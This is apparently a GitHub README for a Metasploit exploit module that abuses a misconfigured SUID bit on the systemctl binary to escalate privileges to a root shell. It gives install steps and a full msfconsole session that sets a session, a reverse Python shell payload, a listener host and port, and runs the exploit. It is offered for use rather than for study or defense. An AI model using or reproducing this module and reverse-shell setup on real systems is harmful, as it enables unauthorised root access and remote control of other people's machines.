 # SUID systemctl Exploit (MSF - Metasploit exploit module)

### Description:
  This module attempt to exploit a misconfigured SUID bit on systemctl binary to escalate privileges 
  & get a root shell!

### Install
  1 : copy the suid_systemctl.rb to ~/.msf4/modules/exploits/ folder
  
  2 : reload all modules at msf console, type reload_all 
  
  3 : Enjoy.  
  
### Usage 
```
msf5 exploit(linux/local/suid_systemctl) > info

       Name: SUID systemctl Exploit
     Module: exploit/linux/local/suid_systemctl
   Platform: Linux, Unix
       Arch: cmd
 Privileged: No
    License: Metasploit Framework License (BSD)
       Rank: Excellent

Provided by:
  0xl0v3r

Available targets:
  Id  Name
  --  ----
  0   Command payload

Check supported:
  Yes

Basic options:
  Name         Current Setting  Required  Description
  ----         ---------------  --------  -----------
  SESSION      13               yes       The session to run this module on.
  WritableDir  /dev/shm         yes       A directory where we can write files
  systemctl    /bin/systemctl   yes       Path to systemctl executable

Payload information:

Description:
  This module attempt to exploit a misconfigured SUID bit on systemctl 
  binary to escalate privileges & get a root shell!

References:
  https://gtfobins.github.io/gtfobins/systemctl/
  https://github.com/Code-L0V3R/suid_systemctl

msf5 exploit(linux/local/suid_systemctl) > set session 13
session => 13
msf5 exploit(linux/local/suid_systemctl) > set payload cmd/unix/reverse_python
payload => cmd/unix/reverse_python
msf5 exploit(linux/local/suid_systemctl) > set lhost 10.10.15.163 
lhost => 10.10.15.163
msf5 exploit(linux/local/suid_systemctl) > set lport 13372
lport => 13372
msf5 exploit(linux/local/suid_systemctl) > exploit 
```

<img src='systemctl-poc.png' alt="POC">

### References: 
  https://gtfobins.github.io/gtfobins/systemctl/
  
